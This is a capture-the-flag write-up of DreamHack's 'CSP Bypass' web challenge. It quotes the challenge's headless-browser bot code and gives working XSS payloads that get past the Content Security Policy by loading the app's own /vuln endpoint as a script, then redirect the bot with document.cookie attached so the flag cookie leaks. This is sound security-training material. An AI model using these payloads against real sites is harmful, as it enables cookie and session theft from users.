


# CSP Bypass — DreamHack

> **Room / Challenge:** CSP Bypass (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** CSP Bypass (web)
- **Link**: `https://dreamhack.io/wargame/challenges/435`
- **Level:** `2`
- **Date:** `13-11-2025`

---

## Goal

Bypassing CSP rules and get the flag with XSS.

## My Solution

The `app.py` has a `read_url` function which is used to create a bot and visit the `/vuln` page with the flag cookie:

```python
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

The `/vuln` is where we have to inject the XSS that makes the bot to visit the `/memo` page with the cookie, by this we can get the flag. The `/vuln` page seems to be safe, however it can be injected Javascript:

```
<script src="./vuln?param=alert(1)"></script>
```



The alert function works, now we can make the vuln page to redirect the bot to memo page with the cookies written:

```
<script src="http://127.0.0.1:8000/vuln?param=location.href='http://127.0.0.1:8000/memo?memo='%2bdocument.cookie"></script>
```

`%2b` will be converted to `+`, the payload will becomes:

```
location.href='http://127.0.0.1:8000/memo?memo='+document.cookie
```

Submitting this payload in the `/flag` page, we will get the flag


